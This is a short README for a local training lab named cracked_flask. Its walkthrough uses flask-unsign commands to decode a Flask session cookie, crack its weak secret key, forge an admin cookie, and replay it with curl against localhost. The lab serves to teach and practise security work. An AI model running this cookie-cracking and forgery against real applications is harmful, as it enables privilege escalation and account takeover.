 # cracked_flask
A very simple lab for cracking Flask session cookies


## Walkthrough

Pull down the cookie and have a look what is in it:

```
flask-unsign --decode --server http://127.0.0.1:5000
```

Try to crack it:

```
flask-unsign --unsign --server http://127.0.0.1:5000
```

Cracked it and got the secret key "monkey" so now create a new cookie with the username admin rather than robin:

```
flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"
```

Finally, make a request using the new cookie:

```
curl --cookie "session=eyJoZWxsbyI6IndvcmxkMiIsInVzZXJuYW1lIjoiYWRtaW4ifQ.YbCXpA.45th8HQUFJO6GHycU_fMkPQ31qc" http://127.0.0.1:5000
```
